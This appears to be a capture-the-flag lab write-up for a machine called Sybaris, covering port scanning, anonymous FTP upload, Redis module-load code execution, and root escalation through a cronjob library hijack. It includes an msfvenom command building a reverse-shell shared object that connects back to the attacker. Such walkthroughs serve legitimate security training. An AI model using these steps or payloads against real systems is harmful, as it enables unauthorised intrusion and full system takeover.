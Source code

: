 # Sybaris

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.243.93 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 20:45 +08
Nmap scan report for 192.168.243.93
Host is up (0.17s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
6379/tcp  open   redis
```

I ran a detailed scan to enumerate further:

```
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.231
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2194ded36964a84da8f0b50aeabd02ad (RSA)
|   256 674245198bf5f9a5a4cffb8748a266d0 (ECDSA)
|_  256 f3e229a3411e761eb1b746dc0bb99177 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sybaris - Just another HTMLy blog
| http-robots.txt: 11 disallowed entries 
| /config/ /system/ /themes/ /vendor/ /cache/ 
| /changelog.txt /composer.json /composer.lock /composer.phar /search/ 
|_/admin/
|_http-generator: HTMLy v2.7.5
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22
6379/tcp open  redis   Redis key-value store 5.0.9
```

The most interesting thing was the Redis instance because it was a version that was vulnerable to the Redis Module exploit.&#x20;

### Rabbit Holes

Port 80 was full of Rabbit Holes, nothing was useful about it.

### FTP Creds --> RCE

The FTP service allowed for anonymous access:

```
$ ftp 192.168.243.93
Connected to 192.168.243.93.
220 (vsFTPd 3.0.2)
Name (192.168.243.93:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||10098|).
150 Here comes the directory listing.
drwxrwxrwx    2 0        0               6 Apr 01  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||10098|).
150 Here comes the directory listing.
226 Directory send OK.
```

Not sure what this directory is used for. The Redis RCE exploit requires that we put a shared object file within the file system, then use Redis's `MODULE LOAD` to run it.&#x20;

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

I transferred this file over to the `pub` directory and tried to find the correct directory to load my module. After a bit of guessing, I found that we uploaded `module.so` to `/var/ftp`.&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

We can then easily get a reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Library Hijack

I ran a `linpeas.sh` scan, and found this `cronjob` running:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Turns out that there are some directories that we can write to within the `LD_LIBRARY_PATH`, and the cronjob running `log-sweeper` doesn't have a `utils.so` specified:

```
[pablo@sybaris ~]$ ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007fff4439a000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007fe90fd0e000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fe9100dc000)
```

This was pretty easy to exploit. Just generate this reverse shell:

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=80 -f elf-so > utils.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
```

Then transfer it to the `/usr/local/lib/dev` directory and wait. Be sure to run `chmod 777 utils.so` on it just in case. The cronjob runs every minute, so the connection takes about 30 seconds to appear:

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Rooted!
